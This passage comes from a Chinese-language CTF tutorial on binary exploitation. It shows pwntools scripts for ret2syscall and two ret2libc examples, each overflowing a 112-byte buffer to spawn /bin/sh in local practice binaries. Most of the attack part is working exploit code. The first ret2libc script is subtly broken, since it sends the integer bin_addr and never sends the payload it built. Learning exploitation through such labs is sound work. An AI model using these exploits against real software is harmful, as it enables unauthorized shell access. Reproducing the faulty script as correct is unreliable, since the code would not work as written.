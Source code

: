 ```python
binsh = 0x80be408
payload = flat(['A' * 112, pop_eax_ret, 0xb, pop_edx_ecx_ebx_ret, 0, 0, binsh, int_0x80])
#flat模块能将pattern字符串和地址结合并且转为字节模式
sh.sendline(payload)
sh.interactive()
```

## ret2libc

### 例1

控制程序执行 libc 中的参数，通常是返回到某个函数的 plt 处，或者某个函数的具体位置（函数对应 got 表项的内容），一般情况会选择执行 system('/bin/sh')

看第一个程序：

得到偏移：

![image.png](https://cdn.nlark.com/yuque/0/2019/png/268938/1574403535178-184d2107-b762-47bd-9dda-d629e74d4483.png)

同时找到：/bin/sh 与 system 的地址

![image.png](https://cdn.nlark.com/yuque/0/2019/png/268938/1574407070973-4b88be2e-6388-4c28-b14e-83ffa84124e0.png)



![image.png](https://cdn.nlark.com/yuque/0/2019/png/268938/1574407137985-b2057cf8-fad6-4a89-80a8-355dc9f41fdc.png)

构造 exp：

```
from pwn import *
p=process('./ret2libc1')
bin_addr=0x8048720
sys_addr=0x8048460
payload='a'*112 + p32(sys_addr)+p32(1234)+p32(bin_addr)
p.sendline(bin_addr)
p.interactive()
```

### 例2

这一个没有了 "/bin/sh" 字符串，需要通过 gets 函数写到一个可读可写的地方，通常会找 bss 段，然后去执行 /bin/sh 

通过查找，可以找到的数据如下：

sys_addr=0x8048490

get_addr=0x8048460

bss_addr=0x804A080

通过这些数据可以写出 exp：

```
from pwn import *
p=process('./ret2libc2')
sys_addr=0x8048490
get_addr=0x8048460
bss_addr=0x804A080
payload = 'a'*112 +p32(get_addr)+p32(sys_addr)+p32(bss_addr)+p32(bss_addr)
p.sendline(payload)
p.sendline('/bin/sh')
p.interactive()
```
